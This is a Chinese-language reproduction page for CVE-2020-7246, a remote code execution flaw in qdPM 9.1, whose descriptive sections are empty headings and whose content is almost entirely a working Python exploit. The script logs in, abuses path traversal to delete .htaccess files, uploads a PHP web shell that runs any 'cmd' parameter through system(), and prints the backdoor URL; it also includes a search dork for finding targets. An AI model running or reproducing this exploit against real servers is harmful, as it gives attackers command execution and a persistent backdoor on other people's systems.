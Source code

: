 （CVE-2020-7246）QdPM \<9.1 远程代码执行漏洞
============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

**python CVE-2020-7246.py -url https://www.0-sec.org/ -u 用户名 -p密码**

    # Exploit Title: qdPM 9.1 - Remote Code Execution
    # Google Dork: intitle:qdPM 9.1. Copyright © 2020 qdpm.net
    # Date: 2020-01-22
    # Exploit Author: Rishal Dwivedi (Loginsoft)
    # Vendor Homepage: http://qdpm.net/
    # Software Link: http://qdpm.net/download-qdpm-free-project-management
    # Version: <=1.9.1
    # Tested on: Windows 10 (Python 2.7)
    # CVE : CVE-2020-7246
    # Exploit written in Python 2.7
    # Tested Environment - Windows 10
    # Path Traversal + Remote Code Execution

    # Command - qdpm-exploit.py -url http://localhost/ -u user@localhost.com -p password
    # -*- coding: utf-8 -*-
    #!/usr/bin/python

    import requests
    from lxml import html
    from argparse import ArgumentParser

    session_requests = requests.session()

    def multifrm(
        userid,
        username,
        csrftoken_,
        EMAIL,
        HOSTNAME,
        uservar,
        ):
        request_1 = {
            'sf_method': (None, 'put'),
            'users[id]': (None, userid[-1]),
            'users[photo_preview]': (None, uservar),
            'users[_csrf_token]': (None, csrftoken_[-1]),
            'users[name]': (None, username[-1]),
            'users[new_password]': (None, ''),
            'users[email]': (None, EMAIL),
            'extra_fields[9]': (None, ''),
            'users[remove_photo]': (None, '1'),
            }
        return request_1


    def req(
        userid,
        username,
        csrftoken_,
        EMAIL,
        HOSTNAME,
        ):
        request_1 = multifrm(
            userid,
            username,
            csrftoken_,
            EMAIL,
            HOSTNAME,
            '.htaccess',
            )
        new = session_requests.post(HOSTNAME + 'index.php/myAccount/update'
                                    , files=request_1)
        request_2 = multifrm(
            userid,
            username,
            csrftoken_,
            EMAIL,
            HOSTNAME,
            '../.htaccess',
            )
        new1 = session_requests.post(HOSTNAME + 'index.php/myAccount/update'
                                     , files=request_2)
        request_3 = {
            'sf_method': (None, 'put'),
            'users[id]': (None, userid[-1]),
            'users[photo_preview]': (None, ''),
            'users[_csrf_token]': (None, csrftoken_[-1]),
            'users[name]': (None, username[-1]),
            'users[new_password]': (None, ''),
            'users[email]': (None, EMAIL),
            'extra_fields[9]': (None, ''),
            'users[photo]': ('backdoor.php',
                             '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }?>'
                             , 'application/octet-stream'),
            }
        upload_req = session_requests.post(HOSTNAME
                + 'index.php/myAccount/update', files=request_3)


    def main(HOSTNAME, EMAIL, PASSWORD):
        result = session_requests.get(HOSTNAME + '/index.php/login')
        login_tree = html.fromstring(result.text)
        authenticity_token =             list(set(login_tree.xpath("//input[@name='login[_csrf_token]']/@value"
                 )))[0]
        payload = {'login[email]': EMAIL, 'login[password]': PASSWORD,
                   'login[_csrf_token]': authenticity_token}
        result = session_requests.post(HOSTNAME + '/index.php/login',
                                       data=payload,
                                       headers=dict(referer=HOSTNAME
                                       + '/index.php/login'))
        account_page = session_requests.get(HOSTNAME + 'index.php/myAccount'
                )
        account_tree = html.fromstring(account_page.content)
        userid = account_tree.xpath("//input[@name='users[id]']/@value")
        username = account_tree.xpath("//input[@name='users[name]']/@value")
        csrftoken_ =             account_tree.xpath("//input[@name='users[_csrf_token]']/@value")
        req(userid, username, csrftoken_, EMAIL, HOSTNAME)
        get_file = session_requests.get(HOSTNAME + 'index.php/myAccount')
        final_tree = html.fromstring(get_file.content)
        backdoor =             final_tree.xpath("//input[@name='users[photo_preview]']/@value")
        print 'Backdoor uploaded at - > ' + HOSTNAME + '/uploads/users/'             + backdoor[-1] + '?cmd=whoami'


    if __name__ == '__main__':
        parser =             ArgumentParser(description='qdmp - Path traversal + RCE Exploit'
                           )
        parser.add_argument('-url', '--host', dest='hostname',
                            help='Project URL')
        parser.add_argument('-u', '--email', dest='email',
                            help='User email (Any privilege account)')
        parser.add_argument('-p', '--password', dest='password',
                            help='User password')
        args = parser.parse_args()

        main(args.hostname, args.email, args.password)
